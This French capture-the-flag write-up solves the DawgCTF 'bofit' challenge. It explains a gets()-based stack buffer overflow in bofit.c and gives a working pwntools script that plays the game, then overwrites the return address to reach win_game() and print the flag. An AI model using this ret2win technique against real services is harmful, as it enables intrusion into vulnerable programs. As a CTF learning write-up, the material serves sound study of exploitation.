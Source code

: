 ![Screen](../../img/home.png)

Le script utilisé pour l'exploit, le binaire et le code source sont dispo dans le même dossier que ce fichier.

On nous fournit une commande netcat. Quand on s'y connecte, on exécute un programme (bofit.c)

En regardant dans bofit.c on vous rapidement la fonction `win_game()`, qui envoie le flag.

```C
void win_game(){
	char buf[100];
	FILE* fptr = fopen("flag.txt", "r");
	fgets(buf, 100, fptr);
	printf("%s", buf);
}
```
En continuant de fouiller dans le code, on voit que la variable `char input` vaut 20, mais que l'on récupère via `gets`, qui prend l'entièreté de l'user input.

Le but est donc simple. Abuser de cette variable pour buffer overflow pour jump sur la fonction `win_game`.

Cependant, un premier soucis arrive. Il faut accéder à la partie pour BOF, et pour cela il faut d'abord jouer à l'équivalent de Twist en CLI. Quand ils envoient "BOF it!" il faut répondre "B", "Pull it!" ==> "P" et ainsi de suite pour chaque action. Quand on reçoit "Shout it!" on peut exploit pour BOF car c'est la partie qui utilise `input`

Première étape: récupérer l'adresse de `win_game`
Pour ça `objdump -D bofit` suffit.

`0000000000401256 <win_game>:` 

Maintenant qu'on l'a il faut l'adapter et l'ajouter à notre payload.

Une fois modifiée à l'aide de pwn.p64() en python, on obtient `V\x12@\x00\x00\x00\x00\x00`
Plus qu'à faire un script qui joue au jeu puis envoie le payload!

Pour ça j'ai utilisé Pwn Tools en python

```python
from pwn import *

nc = remote('umbccd.io',4100) # on se connecte
intro = nc.recv()
print(str(intro) + '\n')
nc.sendline('B') # on commence le jeu
recv = nc.recv()
print(str(recv) + '\n')
i=True
while(i==True): # on joue au jeu tant que l'on a pas exécuté le payload
    if(recv == b'BOF it!\n'):
        print(str(recv) + '\n')
        nc.sendline('B')
    elif(recv == b'Pull it!\n'):
        print(str(recv) + '\n')
        nc.sendline('P')
    elif(recv == b'Twist it!\n'):
        print(str(recv) + '\n')
        nc.sendline('T')
    elif(recv == b'Shout it!\n'): # on peut envoyer le payload
        print(str(recv) + '\n')
        exploit = (10*'V\x12@\x00\x00\x00\x00\x00') # ici j'envoie 10 fois l'adresse modifiée, qui me permettra de ne pas m'ennuyer avec le padding, mais il suffit de l'envoyer 8 fois
        nc.sendline(exploit)
        i=False
        nc.interactive() # on recoit le flag
    recv = nc.recv()
```

Flag: `DawgCTF{n3w_h1gh_sc0r3!!}`

